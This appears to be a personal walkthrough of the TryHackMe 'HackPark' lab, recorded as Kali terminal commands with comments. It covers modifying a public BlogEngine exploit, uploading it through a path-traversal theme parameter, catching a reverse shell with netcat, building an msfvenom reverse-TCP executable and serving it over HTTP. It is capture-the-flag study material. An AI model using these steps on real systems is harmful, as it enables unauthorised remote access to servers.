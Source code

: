 


# I proceeded to download the expploit and move it to same directory as this file
# Then I changed the ip + port in the exploit to 10.11.59.68 and 4443
(kali㉿kali)-[~/THM/practice/hackpark]
└─$ mousepad 46353.cs
# renamed the file
(kali㉿kali)-[~/THM/practice/hackpark]
└─$ cp 46353.cs PostView.ascx
# I set up a nc listener:
(kali㉿kali)-[~/THM/practice/hackpark]
└─$ nc -nvlp 4443 
listening on [any] 4443 ...
# I uploaded it to the new post and saved the post as shell
# then I went to <ip>/?theme=../../App_Data/files
        #and we got a shell!
(kali㉿kali)-[~/THM/practice/hackpark]
└─$ nc -nvlp 4443 
listening on [any] 4443 ...
connect to [10.11.59.68] from (UNKNOWN) [10.10.200.76] 49237
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>

#shell seems VERY unstable so I will be trying to stabilise it using metaslpoit

#first I have to create a payload using msfvenom: (https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/)
(kali㉿kali)-[~/THM/practice/hackpark]
└─$ msfvenom -p windows/shell/reverse_tcp LHOST=10.11.59.68 LPORT=9001 -f exe > reverse.exe           127 ⨯
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
        #this is a non-meterpreter binary
#I then had to upload it to the machine via the shell I have already established
        #I believe the best way is to use an http server but I am not 100% sure what the command for it is
        #(looking at one of the writeups I found a powershell command)
(kali㉿kali)-[~/THM/practice/hackpark]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
